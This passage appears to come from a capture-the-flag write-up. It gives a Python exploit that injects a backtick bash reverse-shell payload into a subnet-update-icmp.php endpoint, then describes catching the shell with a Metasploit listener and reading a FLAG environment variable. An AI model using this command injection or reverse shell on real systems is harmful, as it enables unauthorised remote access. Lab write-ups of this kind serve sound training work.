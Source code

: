 Changing the URL as well as the reverse shell IP and port allows to use the exploit.

```python
import requests

URL = "http://pimpam.lore.tcc/"
LHOST = '10.200.0.15'
LPORT = 65000

def main():
    payload = f"-1`bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1'`"
    resp = requests.post(f"{URL}/app/subnets/scan/subnet-update-icmp.php", data={"subnetId": payload})
    print(resp.headers)
    print(resp.content)

if __name__ == '__main__':
    main()
```

Then, the only thing left is setting up a reverse shell listener. For example, `exploit/multi/handler` in metasploit). Running the listener and the exploit above leads to shell access on the `pimpam` server.

![](img/20241111171731.png)

Once again, the flag can be found in an environment variable `FLAG`.

![](img/20241111171825.png)

